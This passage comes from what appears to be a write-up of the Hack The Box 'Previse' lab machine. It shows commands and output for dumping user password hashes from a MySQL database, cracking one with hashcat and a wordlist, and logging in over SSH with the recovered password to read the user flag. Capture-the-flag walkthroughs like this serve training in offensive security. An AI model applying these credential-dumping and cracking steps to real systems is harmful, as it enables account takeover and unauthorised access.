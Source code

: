     mysql> use previse;
    use previse;
    Database changed

    mysql> show tables;
    show tables;
    +-------------------+
    | Tables_in_previse |
    +-------------------+
    | accounts          |
    | files             |
    +-------------------+
    2 rows in set (0.00 sec)

    mysql> select * from accounts;
    select * from accounts;
    +----+-------------+------------------------------------+---------------------+
    | id | username    | password                           | created_at          |
    +----+-------------+------------------------------------+---------------------+
    |  1 | m4lwhere    | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
    |  2 | testing     | $1$🧂llol$/YdK1dMEncJO3HmNPAVfN. | 2021-08-14 02:10:24 |
    |  3 | playerthree | $1$🧂llol$sP8qi2I.K6urjPuzdGizl1 | 2021-08-14 10:16:51 |
    |  4 | test1       | $1$🧂llol$rCfLNVEV/lMn6ru.fXs/a1 | 2021-08-14 10:28:33 |
    +----+-------------+------------------------------------+---------------------+
    4 rows in set (0.00 sec)

Go ahead and crack m4lwhere's hash.

[root:/git/htb/previse]# hashcat -a0 -m500 m4lwhere_hash /usr/share/wordlists/rockyou.txt
..
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!

Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Sat Aug 14 13:21:55 2021 (16 secs)

New creds! m4lwhere:ilovecody112235!


5. SSH and grab user.txt.

[root:/git/htb/previse]# ssh m4lwhere@previse.htb                                                                                 (master✱)
m4lwhere@previse.htb's password: ilovecody112235!

-bash-4.4$ id && cat user.txt
uid=1000(m4lwhere) gid=1000(m4lwhere) groups=1000(m4lwhere)
26a911ef21c20fdd335de1f37a2b7e9b
